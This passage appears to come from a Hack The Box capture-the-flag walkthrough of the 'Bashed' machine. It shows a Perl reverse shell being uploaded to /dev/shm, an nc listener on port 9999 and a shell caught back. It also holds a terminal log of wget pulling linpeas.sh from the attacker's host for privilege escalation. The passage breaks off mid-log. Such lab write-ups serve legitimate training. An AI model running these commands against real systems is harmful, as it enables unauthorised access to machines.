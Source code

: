 We upload a perl-reverse.pl shell to /dev/shm:

![ImgPlaceholder](screenshots/upload-perl-reverse.png)

We change the permission to rwx to everyone (we need execute right):

![ImgPlaceholder](screenshots/chmod-perl-reverse.png)

On our host we open a nc listening connecting on port 9999:

```
nc -lnvp 9999

```

On the bashed host we enter this command in the php shell:
```
/dev/shm/perl-reverse.pl

On our host we receive a reverse shell back:
![ImgPlaceholder](screenshots/reverse-shell.png)

Then we upload a linpeas.sh script and give it execute rights:

```
ser@kali:~/hackthebox/hackthebox/bashed$ nc -lnvp 9999
Listening on 0.0.0.0 9999

Connection received on 10.10.10.68 51286
/bin/sh: 0: can't access tty; job control turned off
$ $ 
$ ls
perl-reverse.pl
$ wget http://10.10.14.27:8080/linpeas.sh
--2021-01-05 13:37:56--  http://10.10.14.27:8080/linpeas.sh
Connecting to 10.10.14.27:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160486 (157K) [text/x-sh]
Saving to: 'linpeas.sh'
